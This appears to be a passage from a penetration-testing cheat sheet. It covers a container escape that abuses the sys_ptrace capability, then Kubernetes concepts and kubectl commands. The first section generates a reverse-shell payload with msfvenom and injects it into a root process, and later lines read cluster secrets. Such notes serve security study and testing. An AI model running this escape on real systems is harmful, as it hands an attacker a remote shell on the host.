 ### Attack container capabilities

```text
# Host with sys_ptrace capability enabled with host PID space. So it runs top command of host
# You're already inside container
# Check capabilities
capsh --print
# Upload reverse shell and linux-injector
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f raw -o payload.bin
# Check any process running as root
ps aux | grep root
./injector PID_RUNNING_AS_ROOT payload.bin
```

### Kubernetes basics

#### Concepts

* Kubernetes is a security orchestrator
* Kubernetes master provides an API to interact with nodes
* Each Kubernetes node run kubelet to interact with API and kube-proxy to refect Kubernetes networking services on each node.
* Kubernetes objects are abstractions of states of your system.
  * Pods: collection of container share a network and namespace in the same node.
  * Services: Group of pods running in the cluster.
  * Volumes: directory accesible to all containers in a pod. Solves the problem of loose info when container crash and restart.
  * Namespaces: scope of Kubernetes objects, like a workspace \(dev-space\).

#### Commands

```text
# kubectl cli for run commands against Kubernetes clusters
# Get info
kubectl cluster-info
# Get other objects info
kubectl get nodes
kubectl get pods
kubectl get services
# Deploy
kubectl run nginxdeployment --image=nginx:alpine
# Port forward to local machine
kubectl port-forward <PODNAME> 1234:80
# Deleting things
kubectl delete pod
# Shell in pod
kubectl exec -it <PODNAME> sh
# Check pod log
kubectl logs <PODNAME>
# List API resources
kubectl api-resources
# Check permissions
kubectl auth can-i create pods
# Get secrets
kubectl get secrets <SECRETNAME> -o yaml
# Get more info of specific pod
kubectl describe pod <PODNAME>
# Get cluster info
kubectl cluster-info dump

# kube-bench - secutity checker
kubectl apply -f kube-bench-node.yaml
kubectl get pods --selector job-name=kube-bench-node
kubectl logs kube-bench-podname
# kube-hunter - check security weaknesses
```
